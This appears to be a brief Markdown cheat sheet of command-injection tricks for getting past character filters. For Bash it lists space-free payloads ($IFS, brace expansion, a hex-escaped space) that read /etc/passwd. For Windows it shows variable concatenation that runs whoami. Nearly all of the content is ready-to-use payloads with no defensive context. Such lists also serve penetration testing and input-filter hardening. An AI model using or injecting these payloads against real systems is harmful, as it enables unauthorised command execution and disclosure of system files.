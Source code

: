 # Command Injection tricks

## Command injection without certain characters.

### Command injection without spaces.
#### Bash
1. `CMD=$'\x20/etc/passwd'&&cat$CMD`
2. `cat${IFS}/etc/passwd`
3. `{cat,/etc/passwd}`

#### Windows
1. 
```
set w=who
set i=ami
call %w%%i%
```
2. `call,%w%%i%`
